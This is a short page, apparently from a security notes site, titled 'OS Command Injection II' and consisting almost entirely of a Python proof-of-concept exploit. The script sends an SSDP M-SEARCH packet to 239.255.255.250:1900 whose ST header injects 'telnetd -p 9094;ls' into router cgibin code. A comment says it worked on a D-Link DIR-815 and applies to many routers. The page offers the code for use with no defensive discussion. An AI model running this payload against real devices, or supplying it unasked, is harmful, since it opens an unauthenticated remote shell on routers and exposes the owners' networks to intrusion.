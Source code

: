 +++
title = "OS Command Injection II"
date = 2021-10-18T20:39:54-06:00
weight = 5
+++


## OS Command Injection II
```python
import socket
import struct

# This vulnerability is pretty much in every router that has cgibin and uses SSDP code in that cgibin. This one worked on the device dir-815. Will work only in WLAN


buf = 'M-SEARCH * HTTP/1.1\r\nHOST:239.255.255.250:1900\r\nST:urn:schemas-upnp-org:service:WANIPConnection:1;telnetd -p 9094;ls\r\nMX:2\r\nMAN:"ssdp:discover"\r\n\r\n'

print "[+] sending buffer size", len(buf)
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(("239.255.255.250", 1900))
s.send(buf)
s.close()
```
